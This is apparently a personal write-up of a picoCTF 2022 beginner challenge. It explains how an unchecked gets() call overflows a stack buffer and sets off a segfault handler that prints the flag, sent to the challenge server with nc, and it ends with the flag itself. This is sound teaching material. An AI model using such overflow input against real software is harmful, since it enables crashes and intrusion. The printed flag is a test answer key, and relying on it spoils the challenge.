 #pico2022 #binaryexploitation 

## Challenge:
```md
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`
```

## Process:
First step was to wget the program and source.
```bash
wget -q https://artifacts.picoctf.net/c/520/vuln # Program
wget -q https://artifacts.picoctf.net/c/520/vuln.c # Source
```
#wget 

Then I ran the given netcat command.
```bash
nc saturn.picoctf.net 53935
```
#netcat  #nc 

Then I made the given vuln program executable.
```bash
chmod +x vuln
```
#chmod

Running the vuln program resulted in:
	Please create 'flag.txt' in this directory with your own debugging flag.Please create 'flag.txt' in this directory with your own debugging flag.

After this I decided to take a look at the vuln.c file.

Within this file I noticed how the flag would be printed. It's handled in a **sigsegv_handler()** function. 

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);a
  exit(1);
}

...

signal(SIGSEGV, sigsegv_handler);
```
#c

SIGSEGV stands for *segmentation fault*. A segmentation fault is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist.
#segmentationfault

On line 40 of the c file the **gets()** function is called.
```c
gets(buf1)
```
#c 

This reads the *buf1*, the user's input, onto the stack. The **gets()** function will write the user's input to the stack without regard for its allocated length. The user  can then overflow the length resulting in a segmentation fault.

So I ran...
```shell
nc saturn.picoctf.net 53935
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
```
#netcat #nc

Which resulted in the flag being given.

**Flag: *picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}***